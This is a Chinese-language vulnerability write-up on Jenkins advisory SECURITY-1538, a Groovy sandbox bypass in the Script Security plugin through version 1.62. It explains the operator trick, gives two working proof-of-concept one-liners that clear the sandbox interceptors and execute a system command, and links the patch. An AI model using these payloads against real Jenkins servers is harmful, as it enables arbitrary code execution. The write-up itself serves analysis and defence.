
### SECURITY-1538

- 公告：https://jenkins.io/security/advisory/2019-09-12/#SECURITY-1538
- CVE：CVE-2019-10393, CVE-2019-10394, CVE-2019-10399, CVE-2019-10400
- 插件：Script Security
- 影响版本：<=1.62

#### 概述

该问题与[SECURITY-1465](https://jenkins.io/security/advisory/2019-07-31/#SECURITY-1465%20(2))一样，由于groovy语法特性导致绕过，此次利用的是方法调用表达式，可以通过`()`运算符直接调用call方法，如：

```java
class MyCallable {
    int call(int x) {           
        2*x
    }
}
def mc = new MyCallable()
assert mc.call(2) == 4          
assert mc(2) == 4   
```

参考：http://docs.groovy-lang.org/latest/html/documentation/core-operators.html#method-pointer-operator

同理，自增(`++`)自减(`--`)运算符也能间接调用到方法

#### 分析

本质上还是通过`threadInterceptors.get().clear()`清除拦截器再执行任意代码

#### PoC

- poc1

    ```java
    'calc'.({ org.kohsuke.groovy.sandbox.GroovyInterceptor.threadInterceptors.get().clear(); "execute" }())();
    ```

- poc2

    ```java
    ++({ org.kohsuke.groovy.sandbox.GroovyInterceptor.threadInterceptors.get().clear(); "toString" }());
    'calc'.execute()
    ```

![1568792171461](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568792171461.png)

#### 补丁

- jenkinsci/groovy-sandbox [commit](https://github.com/jenkinsci/groovy-sandbox/commit/e30cd28d7b30cd606e78c22174cb04e0450244a7)
- 概述：对方法调用表达式以及递增递减表达式都做了处理

